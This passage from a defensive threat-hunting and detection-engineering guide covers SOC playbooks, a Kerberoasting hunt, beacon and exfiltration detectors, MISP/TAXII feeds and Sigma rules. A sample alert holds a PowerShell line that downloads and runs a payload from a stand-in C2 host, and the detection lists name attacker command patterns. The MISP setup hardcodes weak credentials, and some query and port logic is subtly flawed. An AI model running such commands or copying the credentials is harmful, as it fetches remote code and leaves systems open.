    title: 'Suspicious PowerShell execution with known C2 IP connection',
    severity: 'high',
    source: 'Wazuh',
    timestamp: new Date(),
    indicators: [
      { type: 'ip', value: '185.234.72.18', confidence: 85 },
      { type: 'hash', value: 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855', confidence: 90 },
      { type: 'domain', value: 'evil-c2.xyz', confidence: 75 },
    ],
    affectedHosts: ['WEB-SRV-01', 'DB-SRV-02'],
    rawLog: 'Process PowerShell with command: Invoke-Expression (New-Object Net.WebClient).DownloadString("http://evil-c2.xyz/payload.ps1")',
  };

  const response = await engine.executePlaybook(sampleAlert);
  console.log(JSON.stringify(response, null, 2));
}

// main().catch(console.error);
```

### 3.2 Playbook Catalog — Common SOC Playbooks

| Playbook | Trigger | Automated Steps | Manual Steps (T2) |
|----------|---------|-----------------|-------------------|
| **Phishing Response** | User reports phishing email | Extract URLs/hashes → Sandbox URL → Check VT → Block sender in Exchange → Delete from all mailboxes | Review sandbox report, confirm malicious, update user training |
| **Ransomware Detection** | File encryption alerts from EDR | Isolate host → Kill ransomware process → Block C2 IPs → Disable user account → Collect memory dump | Identify patient zero, determine propagation, restore from backup |
| **Brute Force Attack** | >10 failed logins from single IP | Block IP in firewall → Disable affected accounts → Check for successful logins → Enforce MFA | Review logs for lateral movement, reset passwords |
| **Malware Outbreak** | Anti-malware detects on >5 hosts | Isolate all affected hosts → Collect samples → Run YARA across fleet | Reverse engineer sample, determine IoCs, create custom detection |
| **Insider Threat** | Large data download from single user | Alert HR/legal (not IT first) → Preserve logs → Disable network access | Interview, forensic analysis, determine intent |
| **DDoS Attack** | Traffic spike >10x baseline | Activate CDN mitigation → Enable rate limiting → Scale out resources → Contact ISP | Determine attack vector, tune WAF rules, coordinate with upstream |

---

## 4. Threat Hunting — Hypothesis-Driven Detection

### 4.1 The Hunting Maturity Model (HMM)

| Level | Name | Description | Data Sources Used |
|-------|------|-------------|-------------------|
| **HMM0** | Initial | Relies solely on automated alerts | None (reactive) |
| **HMM1** | Minimal | IOC-based searching after intelligence feed | Basic logs |
| **HMM2** | Procedural | Follows standard hunting procedures | SIEM, EDR |
| **HMM3** | Innovative | Creates novel hypotheses based on threat intel | Full telemetry |
| **HMM4** | Leading | Automated hypothesis generation using ML | All data sources |

### 4.2 Hunting Hypothesis Generation — MITRE ATT&CK Based

Hunting starts with a hypothesis: "I believe an adversary may be [technique] on [platform] because [intel]."

**Hypothesis Template:**

```
HYPOTHESIS #{id}
─────────────────────────────────────────────────────
Technique:    [MITRE ATT&CK T#]
Tactic:       [Initial Access / Execution / Persistence / ...]
Hypothesis:   "Adversaries may be using [technique] to [goal] on [platform]"
Why now:      [New threat intel / recent CVE / industry trend]
Data needed:  [Log sources required]
Detection:    [Specific query / Sigma rule]
```

**Example Hypotheses:**

```
HYPOTHESIS #H-2024-001
─────────────────────────────────────────────────────
Technique:    T1059.001 (PowerShell)
Tactic:       Execution
Hypothesis:   "Adversaries may be using obfuscated PowerShell commands with 
               base64-encoded payloads to evade detection on Windows endpoints"
Why now:      Recent Cobalt Strike campaigns use PowerShell stagers
Data needed:  Windows Event ID 4688 (Process Creation) with command line logging
Detection:    powershell.exe -EncodedCommand OR -e OR -enc OR -Command ".*base64.*"

HYPOTHESIS #H-2024-002
─────────────────────────────────────────────────────
Technique:    T1078.004 (Cloud Accounts)
Tactic:       Defense Evasion / Persistence
Hypothesis:   "Adversaries may be creating AWS IAM users with console access 
               from unusual IP ranges (non-VPC, non-employee VPN)"
Why now:      Recent NOBELIUM (APT29) campaigns targeting cloud infra
Data needed:  AWS CloudTrail CreateUser, CreateLoginProfile events
Detection:    sourceIPAddress NOT IN (company_vpn_range, company_office_range)

HYPOTHESIS #H-2024-003
─────────────────────────────────────────────────────
Technique:    T1003.002 (Security Account Manager / SAM)
Tactic:       Credential Access
Hypothesis:   "Adversaries may be dumping SAM registry hives via 
               reg.exe save or vssadmin for offline hash cracking"
Why now:      Ransomware groups increasingly use SAM dumping for lateral movement
Data needed:  Windows Event ID 4688 with command line, Sysmon Event 1
Detection:    reg.exe save HKLM\\SAM OR vssadmin.*Create.*Shadow OR ntdsutil.*ac*
```

### 4.3 Hunting Campaign — Full Walkthrough

**Objective:** Hunt for evidence of Kerberoasting (T1558.003) across the domain.

```typescript
// kerberoast-hunter.ts — Active Directory Kerberoasting Detection

interface HuntingSession {
  id: string;
  hypothesis: string;
  technique: string;
  tactic: string;
  timeframe: { start: Date; end: Date };
  dataSources: string[];
  queries: HuntingQuery[];
  findings: Finding[];
  statisticalBaselines: Map<string, number>;
}

interface HuntingQuery {
  name: string;
  description: string;
  query: string; // KQL or Splunk SPL
  expectedBaseline: number;
  threshold: number; // multiplier above baseline
}

interface Finding {
  timestamp: Date;
  host: string;
  user: string;
  description: string;
  severity: 'low' | 'medium' | 'high' | 'critical';
  rawData: Record<string, unknown>;
  mitreMapping: string;
}

class KerberoastHunter {
  private baselineData: Map<string, { avgPerDay: number; stdDev: number }> = new Map();

  constructor() {
    this.loadBaselines();
  }

  private loadBaselines() {
    this.baselineData.set('tgs_requests_per_user_per_day', { avgPerDay: 2.5, stdDev: 1.2 });
    this.baselineData.set('tgs_requests_per_service_per_day', { avgPerDay: 1.8, stdDev: 0.9 });
    this.baselineData.set('rc4_tgs_requests', { avgPerDay: 15, stdDev: 5 });
  }

  buildQueries(): HuntingQuery[] {
    return [
      {
        name: 'High Volume TGS Requests per User',
        description: 'Users requesting Kerberos service tickets at anomalous frequency',
        query: `
          EventID=4769 
          | stats count by Account_Name, Service_Name 
          | where count > ${this.baselineData.get('tgs_requests_per_user_per_day')!.avgPerDay * 3}
          | eval threshold_met = if(count > ${this.baselineData.get('tgs_requests_per_user_per_day')!.avgPerDay * 5}, "CRITICAL", "SUSPICIOUS")
        `,
        expectedBaseline: this.baselineData.get('tgs_requests_per_user_per_day')!.avgPerDay,
        threshold: 5,
      },
      {
        name: 'RC4 Encryption TGS Requests (Weak Crypto)',
        description: 'Service tickets requested with RC4 encryption (indicating Kerberoast attempt)',
        query: `
          EventID=4769 Ticket_Encryption_Type=0x17
          | stats count by Account_Name, Service_Name, Client_Address
          | where count > ${this.baselineData.get('rc4_tgs_requests')!.avgPerDay * 2}
        `,
        expectedBaseline: this.baselineData.get('rc4_tgs_requests')!.avgPerDay,
        threshold: 3,
      },
      {
        name: 'TGS Requests from Non-Domain Controllers',
        description: 'Ticket requests originating from workstations (unusual for bulk TGS)',
        query: `
          EventID=4769 NOT (Client_Address LIKE "10.0.0.%" AND Client_Address LIKE "10.0.1.%")
          | stats values(Client_Address) by Account_Name
          | where mvcount(values) > 10
        `,
        expectedBaseline: 0,
        threshold: 10,
      },
    ];
  }

  async executeHunt(): Promise<Finding[]> {
    const findings: Finding[] = [];
    const queries = this.buildQueries();

    console.log(`[HUNT] Starting Kerberoasting hunt with ${queries.length} queries`);

    for (const query of queries) {
      console.log(`[HUNT] Executing query: ${query.name}`);

      // Simulate query execution against SIEM
      const results = await this.simulateSIEMQuery(query);

      for (const result of results) {
        const severity = result.count >= query.expectedBaseline * query.threshold
          ? 'critical'
          : result.count >= query.expectedBaseline * 3
            ? 'high'
            : 'medium';

        findings.push({
          timestamp: new Date(),
          host: result.host || 'unknown',
          user: result.user || 'unknown',
          description: `[${query.name}] ${result.detail} — Count: ${result.count} (baseline: ${query.expectedBaseline})`,
          severity,
          rawData: result,
          mitreMapping: 'T1558.003',
        });
      }
    }

    return findings;
  }

  private async simulateSIEMQuery(query: HuntingQuery): Promise<any[]> {
    // In production, this would execute against ELK/Splunk
    const simulated: any[] = [];
    const userCount = Math.floor(Math.random() * 3) + 2;
    for (let i = 0; i < userCount; i++) {
      const count = query.expectedBaseline * (1 + Math.random() * 5);
      if (count > query.expectedBaseline * query.threshold) {
        simulated.push({
          user: `user-${Math.floor(Math.random() * 1000)}`,
          host: `WS-${Math.floor(Math.random() * 500)}`,
          service: `HTTP/sqlsvc-${Math.floor(Math.random() * 20)}.domain.local`,
          count: Math.round(count),
          detail: `User requested ${Math.round(count)} TGS tickets for service accounts`,
        });
      }
    }
    return simulated;
  }

  generateReport(findings: Finding[]): string {
    const critical = findings.filter(f => f.severity === 'critical').length;
    const high = findings.filter(f => f.severity === 'high').length;
    const medium = findings.filter(f => f.severity === 'medium').length;

    return `
KERBEROASTING HUNT REPORT
═══════════════════════════════════════════════════
Hunt ID:        H-${new Date().toISOString().split('T')[0]}-001
Hypothesis:     Adversaries may be performing Kerberoasting to extract service account hashes
Technique:      T1558.003 (Kerberoasting)
Timeframe:      Past 7 days
Data Sources:   Windows Event ID 4769 (Kerberos TGS)

FINDINGS SUMMARY
───────────────────────────────────────────────────
Total Findings: ${findings.length}
  Critical: ${critical}
  High:     ${high}
  Medium:   ${medium}

TOP FINDINGS:
${findings.filter(f => f.severity === 'critical' || f.severity === 'high').slice(0, 5).map(f =>
  `  [${f.severity.toUpperCase()}] ${f.description}`
).join('\n')}

RECOMMENDATIONS:
1. For high-volume TGS requesters: Investigate user activity and confirm legitimate need
2. For RC4 requests: Configure Group Policy to disable RC4 encryption for Kerberos
3. For non-DC TGS requesters: Investigate workstation for compromise
4. Implement managed service accounts (gMSA) for automatic key rotation
5. Enable Kerberos armoring (FAST) to prevent ticket forgery
`;
  }
}

// Usage
async function huntDemo() {
  const hunter = new KerberoastHunter();
  const findings = await hunter.executeHunt();
  console.log(hunter.generateReport(findings));
}

// huntDemo();
```

### 4.4 Hunting Data Sources Matrix

| Data Source | Key Fields | ATT&CK Coverage | SIEM Query Approach |
|-------------|-----------|-----------------|---------------------|
| **Windows Event 4688 (Process Creation)** | CommandLine, ParentImage, User | T1059, T1204, T1003 | Regex on suspicious patterns (base64, encodedcommand, downloadstring) |
| **Windows Event 4624 (Logon)** | LogonType, TargetUser, SourceIP, Workstation | T1078, T1075, T1558 | Baseline normal logons, detect anomalous source IPs |
| **Windows Event 4663 (Object Access)** | ObjectName, AccessMask, ProcessName | T1003, T1087 | Monitor LSASS access (ProcessId == 500) |
| **Sysmon Event 1 (Process)** | Hashes, Image, CommandLine | All | File creation events for suspicious extensions (.ps1, .vbs, .dll) |
| **Sysmon Event 3 (Network)** | DestinationIP, DestinationPort, Image | T1041, T1571 | Beaconing detection (periodic connections to unknown IPs) |
| **Sysmon Event 7 (Image Load)** | ImageLoaded, Image, Signed | T1055 | DLL injection detection, unsigned DLLs in critical processes |
| **Sysmon Event 11 (File Create)** | TargetFilename, Image | T1505, T1543 | Suspicious file creation in system32, startup folders |
| **AWS CloudTrail** | eventSource, eventName, sourceIPAddress | T1078, T1525, T1550 | API calls from unusual geographies, privilege escalation patterns |
| **DNS Logs** | QueryName, QueryType, SourceIP | T1071, T1568, T1572 | DGA domain lookups, long subdomains (tunneling), known bad domains |
| **Proxy Logs** | URL, UserAgent, BytesOut | T1071, T1041, T1560 | Data exfiltration patterns, unusual user agents |

### 4.5 Beaconing Detection Algorithm

```typescript
// beacon-detector.ts — C2 Beaconing Detection via Time Series Analysis

interface NetworkConnection {
  timestamp: Date;
  sourceIp: string;
  destinationIp: string;
  destinationPort: number;
  bytesSent: number;
  bytesReceived: number;
  protocol: string;
}

interface BeaconCandidate {
  destinationIp: string;
  destinationPort: number;
  connectionCount: number;
  timeWindowMs: number;
  intervalAvgMs: number;
  intervalStdDevMs: number;
  jitterScore: number; // 0-1, lower = more regular = suspicious
  bytesAvg: number;
  protocol: string;
  confidenceScore: number; // 0-100
}

class BeaconDetector {
  private readonly TIME_WINDOW_MS = 24 * 60 * 60 * 1000; // 24 hours
  private readonly MIN_CONNECTIONS = 5;
  private readonly JITTER_THRESHOLD = 0.3;

  detectBeacons(connections: NetworkConnection[]): BeaconCandidate[] {
    // Group connections by destination IP
    const grouped = new Map<string, NetworkConnection[]>();
    
    for (const conn of connections) {
      const key = `${conn.destinationIp}:${conn.destinationPort}`;
      if (!grouped.has(key)) grouped.set(key, []);
      grouped.get(key)!.push(conn);
    }

    const candidates: BeaconCandidate[] = [];

    for (const [key, conns] of grouped) {
      if (conns.length < this.MIN_CONNECTIONS) continue;

      const timestamps = conns.map(c => c.timestamp.getTime()).sort((a, b) => a - b);
      const intervals: number[] = [];

      for (let i = 1; i < timestamps.length; i++) {
        intervals.push(timestamps[i] - timestamps[i - 1]);
      }

      if (intervals.length === 0) continue;

      const intervalAvg = intervals.reduce((a, b) => a + b, 0) / intervals.length;
      const variance = intervals.reduce((sum, val) => sum + Math.pow(val - intervalAvg, 2), 0) / intervals.length;
      const intervalStdDev = Math.sqrt(variance);
      const jitterScore = intervalStdDev / (intervalAvg || 1);

      const bytesAvg = conns.reduce((sum, c) => sum + c.bytesReceived, 0) / conns.length;

      // Calculate confidence
      let confidence = 0;
      if (jitterScore < this.JITTER_THRESHOLD) confidence += 40; // Regular intervals = beaconing
      if (intervals.length >= 20) confidence += 20;
      if (bytesAvg < 1024) confidence += 15; // Small responses = C2 polling
      if (conns.every(c => c.bytesSent > 0 && c.bytesSent < 512)) confidence += 15; // Small requests
      if (this.isSuspiciousPort(conns[0].destinationPort)) confidence += 10;

      const [destIp, destPort] = key.split(':');

      candidates.push({
        destinationIp: destIp,
        destinationPort: parseInt(destPort),
        connectionCount: conns.length,
        timeWindowMs: timestamps[timestamps.length - 1] - timestamps[0],
        intervalAvgMs: Math.round(intervalAvg),
        intervalStdDevMs: Math.round(intervalStdDev),
        jitterScore: Math.round(jitterScore * 100) / 100,
        bytesAvg: Math.round(bytesAvg),
        protocol: conns[0].protocol,
        confidenceScore: Math.min(confidence, 100),
      });
    }

    return candidates
      .filter(c => c.confidenceScore >= 50)
      .sort((a, b) => b.confidenceScore - a.confidenceScore);
  }

  private isSuspiciousPort(port: number): boolean {
    const suspiciousPorts = new Set([445, 139, 3389, 5985, 5986, 53, 88, 389, 636, 3268, 3269]);
    return !suspiciousPorts.has(port);
  }
}

// ExportC2Detector — Packet Length Analysis for Exfiltration
class ExportC2Detector {
  detectDataExfiltration(connections: NetworkConnection[]): any[] {
    const findings: any[] = [];
    const grouped = new Map<string, { totalBytes: number; count: number; destinations: Set<string> }>();

    for (const conn of connections) {
      const k = conn.sourceIp;
      if (!grouped.has(k)) grouped.set(k, { totalBytes: 0, count: 0, destinations: new Set() });
      const g = grouped.get(k)!;
      g.totalBytes += conn.bytesSent;
      g.count++;
      g.destinations.add(conn.destinationIp);
    }

    const hostBytes = new Map<string, number>();
    for (const [host, data] of grouped) {
      hostBytes.set(host, data.totalBytes);
    }

    // Statistical outlier detection
    const values = Array.from(hostBytes.values());
    const mean = values.reduce((a, b) => a + b, 0) / values.length;
    const squaredDiffs = values.map(v => Math.pow(v - mean, 2));
    const stdDev = Math.sqrt(squaredDiffs.reduce((a, b) => a + b, 0) / values.length);

    for (const [host, data] of grouped) {
      const zScore = (data.totalBytes - mean) / (stdDev || 1);
      if (zScore > 3.0) {
        findings.push({
          host,
          totalBytes: data.totalBytes,
          destinations: data.destinations.size,
          zScore: Math.round(zScore * 100) / 100,
          severity: zScore > 5 ? 'critical' : 'high',
          description: `Data exfiltration candidate: ${host} sent ${(data.totalBytes / 1024 / 1024).toFixed(2)}MB to ${data.destinations.size} destinations (${zScore.toFixed(1)} std dev above mean)`,
        });
      }
    }

    return findings;
  }
}

// Demo
function beaconDemo() {
  const detector = new BeaconDetector();
  
  const connections: NetworkConnection[] = [];
  const now = Date.now();
  
  // Generate beacon-like traffic (every 60 seconds, jitter < 5%)
  for (let i = 0; i < 50; i++) {
    connections.push({
      timestamp: new Date(now + i * 60000 + Math.random() * 3000),
      sourceIp: '10.0.0.50',
      destinationIp: '198.51.100.20',
      destinationPort: 8443,
      bytesSent: 256,
      bytesReceived: 512,
      protocol: 'TCP',
    });
  }
  
  // Generate normal traffic (random intervals, large data)
  for (let i = 0; i < 200; i++) {
    connections.push({
      timestamp: new Date(now + Math.random() * 86400000),
      sourceIp: `10.0.${Math.floor(Math.random() * 10)}.${Math.floor(Math.random() * 255)}`,
      destinationIp: `203.0.113.${Math.floor(Math.random() * 255)}`,
      destinationPort: 443,
      bytesSent: Math.random() * 100000,
      bytesReceived: Math.random() * 500000,
      protocol: 'TCP',
    });
  }

  const beacons = detector.detectBeacons(connections);
  console.log(`Detected ${beacons.length} beacon candidates`);
  for (const b of beacons) {
    console.log(`  ${b.destinationIp}:${b.destinationPort} — interval=${b.intervalAvgMs}ms, jitter=${b.jitterScore}, confidence=${b.confidenceScore}`);
  }
}

// beaconDemo();
```

---

## 5. Threat Intelligence Lifecycle

### 5.1 Intelligence Cycle

```
┌──────────────────────────────────────────────┐
│              REQUIREMENTS                     │
│     What decisions need intel support?        │
└─────────────────┬────────────────────────────┘
                  ▼
┌──────────────────────────────────────────────┐
│              COLLECTION                       │
│     Gather raw data from: OSINT, commercial   │
│     feeds, ISACs, dark web, internal telemetry│
└─────────────────┬────────────────────────────┘
                  ▼
┌──────────────────────────────────────────────┐
│              PROCESSING                       │
│     Normalize, deduplicate, enrich, format    │
│     (STIX/TAXII, structured IOC format)      │
└─────────────────┬────────────────────────────┘
                  ▼
┌──────────────────────────────────────────────┐
│              ANALYSIS                         │
│     Correlate, identify TTPs, adversary      │
│     attribution, confidence scoring          │
└─────────────────┬────────────────────────────┘
                  ▼
┌──────────────────────────────────────────────┐
│              DISSEMINATION                    │
│     Distribute to stakeholders: SOC, IR,     │
│     executive, engineering teams             │
└─────────────────┬────────────────────────────┘
                  ▼
┌──────────────────────────────────────────────┐
│              FEEDBACK                         │
│     Measure effectiveness, update priorities  │
└──────────────────────────────────────────────┘
```

### 5.2 MISP — Malware Information Sharing Platform Setup

```bash
# ── Install MISP (Ubuntu 22.04) ──
sudo apt update && sudo apt upgrade -y

# Install dependencies
sudo apt install -y mariadb-server mariadb-client redis-server apache2 \
  php php-cli php-dev php-json php-mysql php-xml php-curl php-gd php-zip \
  php-bcmath php-mbstring php-intl php-bz2

# Download MISP
sudo mkdir /var/www/MISP
sudo chown www-data:www-data /var/www/MISP
sudo -u www-data git clone https://github.com/MISP/MISP.git /var/www/MISP
cd /var/www/MISP
sudo -u www-data git submodule init && sudo -u www-data git submodule update

# Configure database
sudo mysql -e "CREATE DATABASE misp;"
sudo mysql -e "GRANT ALL PRIVILEGES ON misp.* TO misp@localhost IDENTIFIED BY 'MISP_PASSWORD_123';"
sudo mysql -e "FLUSH PRIVILEGES;"
sudo -u www-data mysql -u misp -pMISP_PASSWORD_123 misp < /var/www/MISP/INSTALL/MYSQL.sql

# Generate admin key
sudo -u www-data php /var/www/MISP/app/Console/cake user_init -a

echo "MISP installed. Access web UI at http://YOUR_IP"
echo "Default: admin@admin.test / admin"
```

**MISP API Usage — TypeScript IOC Feeder:**

```typescript
// misp-feeder.ts — Ingest and Process Threat Intel from MISP

interface MispEvent {
  id: string;
  uuid: string;
  info: string;
  threat_level_id: string;
  timestamp: number;
  publish_timestamp: number;
  published: boolean;
  orgc: string;
  tags: string[];
  Attribute: MispAttribute[];
}

interface MispAttribute {
  id: string;
  type: string;
  value: string;
  category: string;
  to_ids: boolean;
  timestamp: number;
}

interface ProcessedIoC {
  originalEvent: string;
  sourceOrg: string;
  type: string;
  value: string;
  category: string;
  tags: string[];
  toIds: boolean;
  priority: number;
}

class MispFeeder {
  private baseUrl: string;
  private apiKey: string;

  constructor(baseUrl: string, apiKey: string) {
    this.baseUrl = baseUrl;
    this.apiKey = apiKey;
  }

  async fetchEvents(limit: number = 50): Promise<MispEvent[]> {
    const response = await fetch(
      `${this.baseUrl}/events/index`,
      {
        method: 'POST',
        headers: {
          Authorization: this.apiKey,
          Accept: 'application/json',
          'Content-Type': 'application/json',
        },
        body: JSON.stringify({
          limit,
          published: true,
          to_ids: 1,
          timestamp: Math.floor(Date.now() / 1000) - 86400 * 7, // Last 7 days
        }),
      }
    );
    if (!response.ok) throw new Error(`MISP API error: ${response.status}`);
    const data = await response.json();
    return data as MispEvent[];
  }

  processEvents(events: MispEvent[]): ProcessedIoC[] {
    const iocs: ProcessedIoC[] = [];

    for (const event of events) {
      const eventTags = event.tags || [];
      const org = event.orgc || 'Unknown';

      for (const attr of event.Attribute) {
        if (!attr.to_ids) continue;

        let priority = 0;
        if (eventTags.some(t => t.includes('ransomware') || t.includes('apt') || t.includes('critical'))) {
          priority = 3;
        } else if (eventTags.some(t => t.includes('malware') || t.includes('trojan') || t.includes('c2'))) {
          priority = 2;
        } else {
          priority = 1;
        }

        iocs.push({
          originalEvent: event.info,
          sourceOrg: org,
          type: attr.type,
          value: attr.value,
          category: attr.category,
          tags: eventTags,
          toIds: attr.to_ids,
          priority,
        });
      }
    }

    return iocs.sort((a, b) => b.priority - a.priority);
  }

  async pushToSIEM(iocs: ProcessedIoC[]): Promise<void> {
    // Push high-priority IoCs to SIEM for immediate blocking
    const highPriority = iocs.filter(ioc => ioc.priority >= 2);
    
    for (const ioc of highPriority) {
      // POST to SIEM alerting API
      console.log(`[SIEM PUSH] Blocking ${ioc.type}: ${ioc.value}`);
    }

    console.log(`Pushed ${highPriority.length} high-priority IoCs to SIEM`);
  }
}

// Usage
async function feedDemo() {
  const feeder = new MispFeeder(
    'https://misp.internalfoo.com',
    'YOUR_MISP_API_KEY'
  );

  const events = await feeder.fetchEvents(20);
  const iocs = feeder.processEvents(events);

  console.log(`Processed ${iocs.length} IoCs from ${events.length} events`);
  console.log('High Priority IoCs:');
  iocs.filter(i => i.priority >= 2).slice(0, 10).forEach(ioc => {
    console.log(`  [${ioc.type}] ${ioc.value} (${ioc.sourceOrg})`);
  });

  await feeder.pushToSIEM(iocs);
}
```

### 5.3 STIX/TAXII — Intelligence Sharing Standards

| Component | Purpose | Example |
|-----------|---------|---------|
| **STIX (Structured Threat Info eXpression)** | Language for describing threat intel | JSON serialization of TTPs, IoCs, campaigns |
| **TAXII (Trusted Automated Exchange of Intel)** | Protocol for sharing STIX data | HTTP-based API for push/pull exchange |
| **STIX Domain Objects (SDO)** | Core entities | AttackPattern, Campaign, Indicator, Malware, ThreatActor, Tool, Vulnerability |

**STIX 2.1 Indicator Example:**

```json
{
  "type": "indicator",
  "spec_version": "2.1",
  "id": "indicator--8e2e2d2b-17d4-4cbf-938f-98ee46b3cd3f",
  "created": "2024-07-01T00:00:00.000Z",
  "modified": "2024-07-01T00:00:00.000Z",
  "name": "Malicious C2 IP",
  "description": "IP address associated with Cobalt Strike C2 infrastructure used by APT29",
  "pattern": "[ipv4-addr:value = '185.234.72.18']",
  "pattern_type": "stix",
  "valid_from": "2024-07-01T00:00:00.000Z",
  "kill_chain_phases": [
    { "kill_chain_name": "mitre-attack", "phase_name": "command-and-control" }
  ],
  "indicator_types": ["malicious-activity"]
}
```

**TAXII Client — TypeScript Implementation:**

```typescript
// taxii-client.ts — STIX/TAXII Intelligence Feed Consumer

interface TaxiiServer {
  url: string;
  username: string;
  password: string;
}

interface TaxiiCollection {
  id: string;
  title: string;
  description: string;
  canRead: boolean;
  canWrite: boolean;
  mediaTypes: string[];
}

class TaxiiClient {
  private server: TaxiiServer;

  constructor(server: TaxiiServer) {
    this.server = server;
  }

  private async request(path: string): Promise<any> {
    const response = await fetch(`${this.server.url}${path}`, {
      headers: {
        Authorization: 'Basic ' + Buffer.from(`${this.server.username}:${this.server.password}`).toString('base64'),
        Accept: 'application/taxii+json;version=2.1',
      },
    });
    if (!response.ok) throw new Error(`TAXII error: ${response.status}`);
    return response.json();
  }

  async getCollections(): Promise<TaxiiCollection[]> {
    const data = await this.request('/taxii2/collections/');
    return data.collections as TaxiiCollection[];
  }

  async getIndicators(collectionId: string, addedAfter?: Date): Promise<any[]> {
    const params = new URLSearchParams();
    params.set('match[type]', 'indicator');
    params.set('limit', '1000');
    if (addedAfter) params.set('added_after', addedAfter.toISOString());

    const data = await this.request(`/taxii2/collections/${collectionId}/objects?${params}`);
    return data.objects || [];
  }

  parseStixIndicators(objects: any[]): ProcessedIoC[] {
    const iocs: ProcessedIoC[] = [];

    for (const obj of objects) {
      if (obj.type !== 'indicator' || !obj.pattern) continue;

      const ipMatch = obj.pattern.match(/ipv4-addr:value\s*=\s*'([^']+)'/);
      const domainMatch = obj.pattern.match(/domain-name:value\s*=\s*'([^']+)'/);
      const hashMatch = obj.pattern.match(/file:hashes\.SHA-256\s*=\s*'([^']+)'/);

      let value = '';
      let type = 'unknown';

      if (ipMatch) { value = ipMatch[1]; type = 'ip'; }
      else if (domainMatch) { value = domainMatch[1]; type = 'domain'; }
      else if (hashMatch) { value = hashMatch[1]; type = 'hash'; }

      if (value) {
        const killChainPhase = obj.kill_chain_phases?.[0]?.phase_name || 'unknown';
        iocs.push({
          originalEvent: obj.name || 'STIX Indicator',
          sourceOrg: obj.created_by_ref || 'Unknown',
          type,
          value,
          category: killChainPhase,
          tags: obj.labels || [],
          toIds: true,
          priority: killChainPhase === 'command-and-control' ? 3 : 2,
        });
      }
    }

    return iocs;
  }

  async poll(collectionId: string, intervalMs: number = 300000): Promise<void> {
    let lastPoll = new Date(Date.now() - 86400000);

    console.log(`[TAXII] Starting poll every ${intervalMs / 1000}s on collection ${collectionId}`);

    // eslint-disable-next-line no-constant-condition
    while (true) {
      try {
        const objects = await this.getIndicators(collectionId, lastPoll);
        const iocs = this.parseStixIndicators(objects);

        if (iocs.length > 0) {
          console.log(`[TAXII] Received ${iocs.length} new indicators`);
          // Push to SIEM, firewall, EDR
        }

        lastPoll = new Date();
      } catch (err) {
        console.error('[TAXII] Poll error:', err);
      }

      await new Promise(resolve => setTimeout(resolve, intervalMs));
    }
  }
}

// Usage
const client = new TaxiiClient({
  url: 'https://taxii.anomali.com',
  username: 'user',
  password: 'pass',
});
```

---

## 6. Detection Engineering — Sigma Rules

Sigma is a generic and open signature format for SIEM systems. Write once, run in any SIEM.

### 6.1 Sigma Rule Structure

```yaml
# sigma_rule_template.yaml
title: Suspicious PowerShell Execution
id: 2e5f3b7a-8c9d-4e1f-6a0b-3c4d5e6f7a8b
status: experimental
description: Detects suspicious PowerShell command line parameters often used by attackers
author: SOC Team
date: 2024/07/01
tags:
  - attack.execution
  - attack.t1059.001
  - attack.defense_evasion
  - attack.t1086
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith:
      - '\powershell.exe'
      - '\pwsh.exe'
    CommandLine|contains:
      - '-EncodedCommand'
      - '-e '
      - '-enc '
      - 'DownloadString'
      - 'IEX'
      - 'Invoke-Expression'
      - 'Hidden'
      - '-WindowStyle Hidden'
      - '-NoProfile'
      - '-ExecutionPolicy Bypass'
      - '$env:'
      - 'Net.WebClient'
  filter:
    CommandLine|contains:
      - 'WindowsFeatureUpdate'
      - 'MaintenanceScript'
  condition: selection and not filter
falsepositives:
  - Legitimate administrative scripts
  - Software installers
level: high
```

### 6.2 Detection Rule Engine — TypeScript

```typescript
// sigma-engine.ts — Sigma Rule Evaluation Engine

interface SigmaRule {
  title: string;
  id: string;
  description: string;
  status: 'stable' | 'test' | 'experimental' | 'deprecated';
  tags: string[];
  logsource: {
    category: string;
    product?: string;
    service?: string;
  };
  detection: {
    [conditionName: string]: any;
  };
  falsepositives: string[];
  level: 'informational' | 'low' | 'medium' | 'high' | 'critical';
}

interface LogEvent {
  timestamp: Date;
  source: string;
  event_id?: number;
  image?: string;
  command_line?: string;
  user?: string;
  parent_image?: string;
  destination_ip?: string;
  destination_port?: number;
  [key: string]: unknown;
}

interface DetectionResult {
  ruleId: string;
  ruleTitle: string;
  matched: boolean;
  matchedConditions: string[];
  severity: string;
  event: LogEvent;
  timestamp: Date;
}

class SigmaEngine {
  private rules: SigmaRule[] = [];

  loadRules(rules: SigmaRule[]): void {
    this.rules = rules;
  }

  evaluate(event: LogEvent): DetectionResult[] {
    const results: DetectionResult[] = [];

    for (const rule of this.rules) {
      const result = this.evaluateRule(rule, event);
      if (result) results.push(result);
    }

    return results;
  }

  private evaluateRule(rule: SigmaRule, event: LogEvent): DetectionResult | null {
    const detection = rule.detection;
    const conditions: string[] = [];

    // Evaluate each named condition
    for (const [conditionName, conditionDef] of Object.entries(detection)) {
      if (conditionName === 'condition') continue;

      if (this.evaluateCondition(conditionDef, event)) {
        conditions.push(conditionName);
      }
    }

    // Parse condition string (supports 'selection and not filter' format)
    const conditionStr = detection['condition'] as string || 'all of them';
    const matched = this.evaluateConditionExpression(conditionStr, conditions);

    if (matched) {
      return {
        ruleId: rule.id,
        ruleTitle: rule.title,
        matched: true,
        matchedConditions: conditions,
        severity: rule.level,
        event,
        timestamp: new Date(),
      };
    }

    return null;
  }

  private evaluateCondition(condition: any, event: LogEvent): boolean {
    // Handle different condition types
    
    // Simple key-value match: Image: '\powershell.exe'
    if (typeof condition === 'object' && !Array.isArray(condition)) {
      for (const [key, value] of Object.entries(condition)) {
        const eventValue = this.getNestedValue(event, key);

        // Value modifiers: |contains, |endswith, |startswith
        const [field, ...modifiers] = key.split('|');
        const actualValue = this.getNestedValue(event, field);

        if (Array.isArray(value)) {
          // Any of the values should match
          if (!value.some(v => this.matchValue(actualValue, v, modifiers))) {
            return false;
          }
        } else {
          if (!this.matchValue(actualValue, value as string, modifiers)) {
            return false;
          }
        }
      }
      return true;
    }

    // Array of conditions (OR logic)
    if (Array.isArray(condition)) {
      return condition.some(c => this.evaluateCondition(c, event));
    }

    return false;
  }

  private evaluateConditionExpression(expr: string, matchedConditions: string[]): boolean {
    const conditionSet = new Set(matchedConditions);

    // Handle basic patterns
    if (expr === 'all of them') {
      return matchedConditions.length > 0;
    }

    // 'selection and not filter'
    const andParts = expr.split(' and ').map(s => s.trim());
    for (const part of andParts) {
      if (part.startsWith('not ')) {
        const condName = part.substring(4).trim();
        if (conditionSet.has(condName)) return false;
      } else {
        if (!conditionSet.has(part)) return false;
      }
    }
    return true;
  }

